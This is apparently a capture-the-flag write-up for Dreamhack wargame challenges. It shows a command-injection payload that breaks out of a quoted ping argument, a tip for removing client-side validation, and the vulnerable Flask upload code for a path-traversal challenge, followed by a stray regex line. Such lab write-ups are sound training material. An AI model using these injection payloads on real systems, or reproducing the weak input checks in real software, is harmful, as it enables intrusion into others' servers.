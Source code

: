 Typically, Linux commands are separated by characters like `;`, `|`, `&`, and newline `\n`. However, in this case, we face a challenge because the host input is regulated by a regex in the `ping.html` file, and the host is enclosed within double quotes `""`. Therefore, we will exploit this by bypassing the input validation pattern and using commands to separate and execute.

```shell
cmd = ping -c 3 "{host}" 
if host = 1.1.1.1
=> cmd = ping -c 3 "1.1.1.1"
exploit:
host = 1.1.1.1"; ls # 
=> cmd = ping -c 3 "1.1.1.1"; ls #"
The # symbol in Linux marks the start of a comment, so any characters following it will be ignored.
```

Note: Remove pattern="[A-Za-z0-9.]{5,20}" in the developer tools to bypass input validation.

![pic1](https://hackmd.io/_uploads/rypqDLTByg.png)

![pic2](https://hackmd.io/_uploads/S1vsPLpSkg.png)

![pic3](https://hackmd.io/_uploads/BykADU6S1x.png)


## file-download-1

[Challenge](https://dreamhack.io/wargame/challenges/37)
[Source](https://sfo2.digitaloceanspaces.com/wargame1/public/6610b977-48d4-4801-bc55-31015251ee6e.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=OIK4A6AORYFTHBTQUV55%2F20241228%2Fsfo2%2Fs3%2Faws4_request&X-Amz-Date=20241228T105013Z&X-Amz-Expires=86400&X-Amz-SignedHeaders=host&X-Amz-Signature=0c01e29075a3063dff08a256ea8f40abc75777534485e257aa08719d6e30ae69)

This challenge involves `file upload` and `path traversal`. To exploit it, we need to create a file and attempt to leverage these vulnerabilities.

```python
#!/usr/bin/env python3
import os
import shutil

from flask import Flask, request, render_template, redirect

from flag import FLAG

APP = Flask(__name__)

UPLOAD_DIR = 'uploads'


@APP.route('/')
def index():
    files = os.listdir(UPLOAD_DIR)
    return render_template('index.html', files=files)


@APP.route('/upload', methods=['GET', 'POST'])
def upload_memo():
    if request.method == 'POST':
        filename = request.form.get('filename')
        content = request.form.get('content').encode('utf-8')

        if filename.find('..') != -1:
            return render_template('upload_result.html', data='bad characters,,')

        with open(f'{UPLOAD_DIR}/{filename}', 'wb') as f:
            f.write(content)
```

[^0-8\"]: Matches any character that is not a digit from 0 to 8 or the double-quote character ".